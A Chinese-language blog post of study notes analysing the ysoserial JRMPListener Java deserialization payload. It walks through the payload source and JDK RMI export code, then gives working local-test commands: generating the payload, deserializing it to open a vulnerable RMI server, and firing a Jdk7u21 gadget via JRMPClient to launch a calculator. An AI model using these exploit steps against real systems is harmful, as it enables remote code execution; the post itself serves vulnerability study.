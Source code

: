 ```yaml
---
title: "Java 反序列化 ysoserial JRMPListener"
layout: post
date: 2019-04-20 16:20
headerImage: false
tag:
- Java
- ysoserial
- 反序列化
blog: true
star: false
author: b1ngz
description: Java ysoserial JRMPListener Note
---
```


# 0x01 简介

Java 反序列化 ysoserial [JRMPListener](<https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/exploit/JRMPListener.java>) payload 学习笔记

JRMP (Java Remote Method Protocol) 是 Java 实现 RMI 的专有协议，关于 RMI 可以参考  [Java RMI 笔记](<https://b1ngz.github.io/java-rmi>)，有助于理解 `JRMPListener` 的利用过程

# 0x02 分析

`JRMPListener` payload 执行完成后，会在目标机器上的指定端口开启基于 JRMP 协议的 RMI server，我们需要再使用 `exploit/JRMPClient` 请求开启的 RMI server，发送指定的 gadget 来完成利用，具体步骤见 [本地测试](#本地测试) 部分

来看一下 `payloads/JRMPListener` 代码

```java
    public UnicastRemoteObject getObject ( final String command ) throws Exception {
        int jrmpPort = Integer.parseInt(command);
        UnicastRemoteObject uro = Reflections.createWithConstructor(ActivationGroupImpl.class, RemoteObject.class, new Class[] {
            RemoteRef.class
        }, new Object[] {
            new UnicastServerRef(jrmpPort)
        });

        Reflections.getField(UnicastRemoteObject.class, "port").set(uro, jrmpPort);
        return uro;
    }
```

`command` 参数为 RMI server 监听端口

```java
        UnicastRemoteObject uro = Reflections.createWithConstructor(ActivationGroupImpl.class, RemoteObject.class, new Class[] {
            RemoteRef.class
        }, new Object[] {
            new UnicastServerRef(jrmpPort)
        });
```

使用父类  `RemoteObject` 的构造方法 `protected RemoteObject(RemoteRef newref)`，反射创建 `ActivationGroupImpl` 类的实例， 参数为 `UnicastServerRef` 的实例，用于指定 RMI server 监听端口，最后赋值的变量类型为 `UnicastRemoteObject`，其继承关系如下

![image-20190418182428412](/assets/images/ysoserial/UnicastRemoteObject.png)



再来看一下反序列化的过程，`ActivationGroupImpl` 类没有重写 `readObject` 方法，实际调用的是 `UnicastRemoteObject` 

```java
    private void readObject(java.io.ObjectInputStream in)
        throws java.io.IOException, java.lang.ClassNotFoundException
    {
        in.defaultReadObject();
        reexport();
    }
```

内部调用 `reexport()`

```java
    private void reexport() throws RemoteException
    {
        if (csf == null && ssf == null) {
            exportObject((Remote) this, port);
        } else {
            exportObject((Remote) this, port, csf, ssf);
        }
    }
```

这里 `csf` 和 `ssf` 变量都为 null，调用 `exportObject(Remote obj, int port)` 方法

```java
    public static Remote exportObject(Remote obj, int port)
        throws RemoteException
    {
        return exportObject(obj, new UnicastServerRef(port));
    }
```

可以看到，这里开启了 RMI server，将自身 export 了出去，剩余的部分就是 RMI server 创建的内部过程，本地 debug 时的调用栈如下

![image-20190418184254070](/assets/images/ysoserial/jrmp_listener_callstack.png)



# 0x03 本地测试

生成 JRMPListener payload class 文件，指定运行端口为 38471

```shell
mkdir /tmp/ysoserial/
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar JRMPListener 38471 > /tmp/ysoserial/jrmplistener.class
```

**这里要注意，以下代码运行后会在本机开启一个存在反序列化漏洞的 RMI server，要注意测试的环境**

```java
    @Test
    public void testJRMPListener() throws Exception {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(new File("/tmp/ysoserial/jrmplistener.class")));
        ois.readObject();
        // 因为反序列过程中，是创建一个线程来启动 RMI server，需要保证 main thread 不退出
        while (true) {
            System.out.println(System.currentTimeMillis());
            Thread.sleep(3000);
        }
    }
```

使用 `ysoserial.exploit.JRMPClient` 请求 RMI server ，这里为了简单，项目 JDK 使用 7u21，因此直接使用 Jdk7u21 gadget

```shell
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPClient 127.0.0.1 38471 Jdk7u21 "open /Applications/Calculator.app"
```

运行完后会弹出计算器



## 参考

- [ysoserial JRMP相关模块分析（一）- payloads/JRMPListener ](<https://xz.aliyun.com/t/2649>)







